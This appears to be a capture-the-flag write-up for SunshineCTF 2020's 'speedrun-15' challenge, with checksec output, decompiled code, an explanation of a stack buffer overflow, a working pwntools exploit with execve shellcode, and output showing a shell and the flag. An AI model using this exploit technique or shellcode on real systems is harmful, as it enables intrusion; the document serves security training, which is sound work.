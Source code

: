 # **speedrun-15**
## Task
nc chal.2020.sunshinectf.org 30015
File: chall_15
Tag: binary exploitation 

## Solution

### Checksec
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
* No canary + NX disabled + has RWX segments assume BOF shellcode
* System 64 bit

### Decompile with ghidra
```c
void vuln(void)
{
  char local_4e [10];
  int local_44;
  undefined4 local_40;
  undefined4 local_3c;
  undefined4 local_38;
  undefined4 local_34;
  undefined4 local_30;
  undefined4 local_2c;
  undefined4 local_28;
  undefined4 local_24;
  undefined4 local_20;
  undefined4 local_1c;
  undefined4 local_18;
  undefined4 local_14;
  undefined4 local_10;
  int local_c;
  
  printf("There\'s a place where nothing seems: %p\n",local_4e);
  local_c = 0xdead;
  local_10 = 0xdead;
  local_14 = 0xdead;
  local_18 = 0xdead;
  local_1c = 0xdead;
  local_20 = 0xdead;
  local_24 = 0xdead;
  local_28 = 0xdead;
  local_2c = 0xdead;
  local_30 = 0xdead;
  local_34 = 0xdead;
  local_38 = 0xdead;
  local_3c = 0xdead;
  local_40 = 0xdead;
  local_44 = 0xdead;
  fgets(local_4e,0x5a,stdin);
  if ((local_44 != 0xfacade) && (local_c != 0xfacade)) {
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  return;
}
```
Just inject the shellcode into the stack

We see that the `printf` leak the `local_4e`'s address and we have to overwrite the `local_44` or `local_c` in order to ROP the return Address to the shellcode not `exit(0)` called

So we have to write out the value `0xfacade` to the `local_44` before inject the shellcode and accelerate (`stack += len(payload)`) the return address to Shellcode position

Fortunately, the limit size of `fgets` is `0x5a` still greater than total payload size. Done!
### Exploit
```python
from pwn import *

binary = context.binary = ELF('./chall_15')
p = remote('chal.2020.sunshinectf.org',30015)
p.sendline('IxZ')
p.recvuntil("There\'s a place where nothing seems: ")
stack = int(p.recvline().strip(),16)

payload = b'A'*(0x4e-0x44)
payload += p64(0xfacade)
stack += len(payload) 

#payload += asm(shellcraft.sh())
shellcode  = b'\x6a\x42\x58\xfe\xc4\x48\x99\x52'
shellcode += b'\x48\xbf\x2f\x62\x69\x6e\x2f\x2f'
shellcode += b'\x73\x68\x57\x54\x5e\x49\x89\xd0'
shellcode += b'\x49\x89\xd2\x0f\x05'
#payload += b'\x90\x90\x90\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'
print(asm(shellcraft.sh()))
payload += shellcode
payload += b'A'*(0x4e-len(payload))
payload += p64(stack)

p.sendline(payload)
p.interactive()
```

### Output
```bash
[*] '/home/kali/speedrun_sunshineCTF2020/chall_15'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to chal.2020.sunshinectf.org on port 30015: Done
b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
[*] Switching to interactive mode
$ ls
chall_15
flag.txt
$ cat flag.txt
sun{bat-country-53036e8a423559df}
```